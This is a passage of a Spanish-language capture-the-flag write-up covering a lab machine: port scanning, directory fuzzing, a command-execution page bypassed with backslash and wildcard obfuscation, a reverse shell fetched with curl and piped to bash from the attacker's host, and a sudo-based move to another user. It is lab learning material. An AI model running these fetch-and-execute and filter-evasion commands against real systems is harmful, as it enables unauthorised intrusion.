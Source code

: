 ### nmap
```python
sudo nmap -p- --open -sS -sCV -n -Pn 10.10.95.51
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-18 18:53 EST
Nmap scan report for 10.10.95.51
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.51 seconds
```
### ports: 21/tcp - 22/ssh - 80/http

### Enumeración 80
![[Pasted image 20231118200242.png]]
la pagina principal parace no tener nada importante
### fuzzing con gobuster
![[Pasted image 20231118201742.png]]
### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![[Pasted image 20231118202125.png]]
### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 
![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre 